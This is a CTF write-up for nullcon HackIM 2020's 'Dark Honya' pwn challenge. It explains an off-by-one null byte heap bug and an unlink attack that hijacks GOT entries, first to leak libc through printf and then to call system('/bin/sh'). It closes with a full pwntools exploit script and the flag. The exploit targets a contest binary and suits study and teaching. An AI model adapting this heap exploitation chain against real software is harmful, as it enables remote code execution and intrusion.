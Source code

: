 ```yaml
---
title: Dark Honya -- nullcon HackIM 2020
categories: [CTF Writeups]
tags: [nullcon20, pwn]
date: 2020-02-09
seo:
  date_modified: 2020-02-16 17:21:40 +0000
---
```

With [Jorge](https://twitter.com/jorge_cmartins) and [jofra](https://twitter.com/V_jofra)

**Points:** 460 (dynamic)

## TL;DR
1. Null byte overflow on heap chunk
2. Free overflown chunk
3. Overwrite ptr array 
4. Write `printf@plt` on `free@got` to obtain a libc leak
5. Write `system` on `atoi@got` to get a shell


### Binary Mitigations
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Reversing
The program provided three functionalities:

#### 1. Buy a book
```c
void buy()
{
  char *chunk; 
  signed int i;

  for ( i = 0; ptr[i]; ++i )
    ;
    
  if ( i <= 15 )
  {
    chunk = malloc(0xF8);
    puts("Name of the book?");
    read_f8_buff(chunk);
    ptr[i] = chunk;
  }
  else
  {
    puts("Next time bring a bag with you!");
  }
}
```
#### 2. Return a book
```c
void put_back()
{
  int idx; 

  puts("Which book do you want to return?");
  idx = read_int();
  if ( (unsigned int)idx > 0xF )
    puts("boy, you cannot return what you dont have!");
  free(ptr[idx]);
  ptr[idx] = 0;
}

```

#### 3. Write on a book
```c
void write()
{
  int idx; 

  idx = read_int();
  if ( (unsigned int)idx <= 0xF )
  {
    puts("Name of the book?");
    read_f8_buff(ptr[idx]);
  }
  else
  {
    puts("Writing in the air now?");
  }
}
```

## Vulnerability

The binary uses `read_f8_buff` when reading data to buffers. This function reads 0xf8 bytes to a buffer and appends a '\x00' character to the end of the buffer. If 0xf8 characters are provided, the '\x00' will be appended out of bounds.

```c
void read_f8_buff(char *buff)
{
  int bytes_read; 

  bytes_read = read(0, buff, 0xF8);
  if ( bytes_read == -1 )
    puts("Err read string");
  buff[bytes_read] = 0; // off by one vulnerability
}
```

![](https://i.imgur.com/43FDHCJ.png)

## Exploitation Plan

### Step 1 - Control global ptr array entries
We can leverage the off-by-one vulnerability in `read_f8_buffer` to force a coalesce with an allocated chunk. This will call the `unlink` macro.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    FD = P->fd;								      
    BK = P->bk;					
    // we have to satisfy this check
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {		
        // important part
        FD->bk = BK;							   
        BK->fd = FD;							      
        ...							      
      }									      
}
```
By controlling the `FD` and `BK` pointers, we can write the chunk `BK` and `FD`s address on arbitrary memory, as long as `FD->bk == P` and `BK->fd == P`. So, effectively, we must have a pointer in memory to `P`. 

When we allocate a `chunk` its address is stored on the global `ptr` list.

This address points to the usable area inside the chunk (i.e. not the actual beginning of the chunk). With this in mind we prepare a `fake chunk` at the stored address with modified `size`,`fd` and `bk`pointers and next chunk's `prev_size`. We then free the next chunk to trigger a coalesce which will use the unlink macro.


![](https://i.imgur.com/QM5Q6jt.png)

This will overwrite ptr_array[2] with &ptr_array-8 (fake_chunk->fd). 

### Step 2 - Leak libc

We now control the global `ptr` array, so we can insert arbitrary addresses and use the write functionality to achieve a **write_what_where**. 
We will now:
1. Insert `free@got`'s address on the `ptr` array
2. Use the write functionality to replace the `free@got` with `printf@plt`
3. "Free" a chunk with a format string as it's content which will call `printf` and get us a`libc leak`


### Step 3 - Get shell

Since we have a`libc leak`, the next step is to call `system("/bin/sh")`. To do this we overwrite the `atoi` entry on the got with `system`. This way when the program asks us for the menu option we simply provide the string `/bin/sh`.


## Exploit Script
```python

from pwn import *

def go():
    s = remote("pwn2.ctf.nullcon.net", 5002)
    libc = ELF("./libc-2.23.so")
    ptr = 0x6021b0
    leak_offset = 0x20830
    
    # we're not using the name
    s.send("A"*8)

    # alocate 4 chunks
    for n in range(5-1):
        alloc(s, chr(ord('A')+n)*0x10)
    
    # alocate 5th chunk with format string needed to obtain a leak
    alloc(s, "LEAK:%15$p")

    # .bss entry must point to chunk-0x10, so we will create a fake chunk
    # 0x10 bytes after our allocated chunk, populating the prev_size with the 
    # correct size of our fake chunk
    write_name(s, 2, '\x00'*8 + p64(0xf1) + p64(ptr-0x18) + p64(ptr-0x10) + (0xf8-0x28)*'A' + p64(0xf0))

    # free the third chunk, triggering the unlink 
    free(s, 3)

    # free 0x602018
    # &ptr-0x8 is now written on the third entry of the pointer list
    # we now use it to change the first pointer to point to free@got
    write_name(s, 2, '\x00'*8 + p64(0x602018))


    # overwrite both free and puts to printf
    write_name(s, 0, p64(0x400680) + p64(0x400680))

    # trigger the printf on the fifth chunk and obtain a libc leak
    free(s, 4)

    s.recvuntil("LEAK:")
    libc.address = int(s.recv(14)[2:], 16) - leak_offset

    log.info("libc      @ {}".format(hex(libc.address)))

    # atoi 0x602060
    # replace atoi with system
    write_name(s, 2, '\x00'*8 + p64(0x602060))

    write_name(s, 0, p64(libc.symbols['system']))   

    s.sendline("/bin/sh")
    s.sendline("cat flag")

    s.interactive()

go()

# hackim20{Cause_Im_coming_atcha_like_a_dark_honya_?}
```

